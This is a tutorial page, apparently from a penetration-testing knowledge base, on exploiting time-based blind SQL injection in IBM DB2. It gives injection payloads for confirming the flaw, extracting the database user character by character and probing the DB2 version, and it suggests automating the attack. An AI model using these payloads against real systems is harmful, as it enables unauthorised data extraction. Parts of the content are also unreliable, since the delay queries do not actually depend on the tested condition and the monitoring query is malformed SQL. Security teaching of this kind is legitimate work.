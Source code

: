 ```yaml
---
title: Mastering Time-based Blind SQL Injection
description: Learn how to exploit time-based blind SQL injection in IBM DB2 with conditional
  timing attacks for data extraction.
keywords:
- time-based blind SQL injection
- IBM DB2
- timing attack
- conditional delays
- BENCHMARK()
- SLEEP()
- SYSDUMMY1
- MON_GET_ACTIVITY
- MON_GET_CONNECTION
---
```


# Time-based Blind

## Context

This article describes how to exploit time-based blind SQL injection vulnerabilities specifically in IBM DB2 databases. This technique leverages timing attacks to infer data without direct feedback from the database. It assumes you have prior knowledge of SQL query execution and understand how database response time can be used advantageously.

## Theory

### Understanding Time-based Blind SQL Injection

Time-based blind SQL injection is a method whereby attackers use database response times to infer information. Unlike traditional SQL injection, which might return direct results, this method manipulates SQL queries to induce timed delays based on conditional logic. In IBM DB2, since there is no native SLEEP() or BENCHMARK() function, attackers use resource-intensive ("heavy") queries—such as large cartesian joins—to create a measurable delay when a condition is true.

> **Insight:** Time-based blind SQLi in DB2 relies on triggering slow queries (e.g., joining large system tables multiple times) to cause a noticeable delay when a condition is met. This is especially useful when no direct output is available and boolean-based techniques are unreliable.

The attack sequence typically involves the following steps:
   - Formulate a conditional SQL query.
   - Use a heavy query to introduce a delay for specific conditions.
   - Analyze the response delays to deduce true or false.

### Conditional Timing in IBM DB2

In the context of IBM DB2, conditional timing uses heavy SQL queries to create processing delays based on query conditions. This method exploits vulnerabilities where user input is not sufficiently validated, allowing attackers to execute timing-based queries.

Key concepts include:
   - Conditional heavy queries can reveal data by the timing of responses.
   - The lack of input validation allows the execution of time-based conditions.

### Key Techniques

To implement a time-based blind SQL injection in DB2, use resource-intensive queries such as cartesian joins of large system tables (e.g., `sysibm.columns`). By checking the time taken to execute a query, insights about database values can be gleaned.
- **SYSDUMMY1**: A special table in DB2 often utilized to execute test queries.
- **MON_GET_ACTIVITY** and **MON_GET_CONNECTION**: These functions are employed for monitoring query execution time. Using these functions, one can track and analyze the duration of executed queries, which is pivotal in identifying the impact of injected conditional statements.

## Practice

### Time-based Blind SQL Injection

This technique involves crafting SQL queries that exploit timing delays to infer data. 

- **Verify Vulnerability with a Heavy Query**
  ```sql
  ' AND (SELECT COUNT(*) FROM sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 --
  ```
  If the application response is delayed, the injection point is likely vulnerable to time-based blind SQLi using heavy queries.

- **Extract Data Character-by-Character**
  - **Check if the first character of user is 'D' (ASCII 68):**
    ```sql
    ' AND (SELECT COUNT(*) FROM sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 AND (SELECT ASCII(SUBSTR(user,1,1)) FROM sysibm.sysdummy1)=68 --
    ```
    If the response is delayed, the first character is 'D'. Repeat for each character and position to extract the full value.

- **DB2-Specific: Extract System Metadata (e.g., Version) with Timing**
  - **Check if DB2 version is 11.x (time-based):**
    ```sql
    ' AND (SELECT COUNT(*) FROM sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 AND (SELECT COUNT(*) FROM sysibm.sysversions WHERE versionnumber BETWEEN 11000000 AND 11999999)>0 --
    ```
    If the response is delayed, the version is 11.x. Adjust the range to refine the version.

> **Tip:** You can use similar heavy queries to extract other system information, such as OS version or service pack, by targeting fields in `SYSIBMADM.ENV_SYS_INFO`.

- **Monitor Execution Time**
  ```sql
  SELECT MON_GET_ACTIVITY(NULL, NULL) WHERE EXECUTION_TIME > threshold;
  ```
  Track the execution time of queries to ensure they match expected delay patterns, which helps validate your inferences about the database content.

### Example Output/Behavior
- **TRUE Condition:** Application response is delayed (e.g., several seconds), indicating the condition is true.
- **FALSE Condition:** Application response is normal/fast, indicating the condition is false.

### Troubleshooting & Automation
- If the application response is inconsistent, try increasing the complexity of the heavy query (e.g., more joins) to create a more noticeable delay.
- Automate the process with tools like sqlmap or custom scripts to iterate through possible values and measure response times.

## Tools

- **DB2 Command Line Processor**
- **Wireshark**